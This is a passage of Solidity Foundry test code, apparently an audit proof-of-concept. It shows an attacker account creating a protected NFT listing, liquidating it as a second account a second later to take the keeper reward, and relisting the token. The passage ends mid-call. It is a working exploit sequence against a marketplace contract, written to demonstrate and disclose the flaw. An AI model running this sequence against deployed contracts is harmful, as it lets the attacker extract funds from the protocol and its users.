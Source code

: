 ```solidity
    assertEq(listings.balances(_owner, address(token)), 0, 'Owner has no escrow');
    assertEq(listings.balances(_buyer, address(token)), 0, 'Buyer has no escrow');

    // 2. The Attacker creates a protected listing as _owner, and receives 0.95 ether
    vm.startPrank(_owner);
    erc721a.approve(address(protectedListings), _tokenId);
    _createProtectedListing({
        _listing: IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(_tokenId),
            listing: IProtectedListings.ProtectedListing({
                owner: _owner,
                tokenTaken: 0.95 ether,
                checkpoint: 0
            })
        })
    });
    vm.stopPrank();

    // Confirm token balances
    assertEq(token.balanceOf(_owner), 0.95 ether, 'Owner has 0.95 ether from protected listing');
    assertEq(token.balanceOf(address(protectedListings)), 0.05 ether, 'ProtectedListings has 0.05 ether');

    // 3. Warp forward 1 second; the listing can now be liquidated
    vm.warp(block.timestamp + 1);
    assertLt(protectedListings.getProtectedListingHealth(address(erc721a), _tokenId), 0);


    // 4. The attacker triggers liquidation as _buyer
    vm.startPrank(_buyer);
    protectedListings.liquidateProtectedListing(address(erc721a), _tokenId);


    // Confirm that the buyer receives 0.05 ether as the liquidation keeper
    assertEq(token.balanceOf(_buyer), 4.05 ether, 'Buyer has 0.05 ether additionally as keeper');
    assertEq(token.balanceOf(_owner), 0.95 ether, 'Owner still has 0.95 ether from protected listing');

    // At that point the attacker holds 5 ether of collection token in two accounts

    // Confirm that the listing is created and is dutching with the expected parameters
    IListings.Listing memory _listing = listings.listings(address(erc721a), _tokenId);
    assertEq(_listing.owner, _owner);
    assertEq(_listing.duration, 4 days);
    assertEq(_listing.floorMultiple, 400);

    assertEq(listings.balances(_owner, address(token)), 0, 'Invalid lister escrow');

    // 5. The attacker relists the token as liquid listing
    locker.collectionToken(address(erc721a)).approve(address(listings), type(uint).max);
    listings.relist({
        _listing: IListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(_tokenId),
            listing: IListings.Listing({
                owner: payable(_buyer),
                created: uint40(block.timestamp),
                duration: 7 days,
                floorMultiple: 400
            })
        }),
        _payTaxWithEscrow: false
```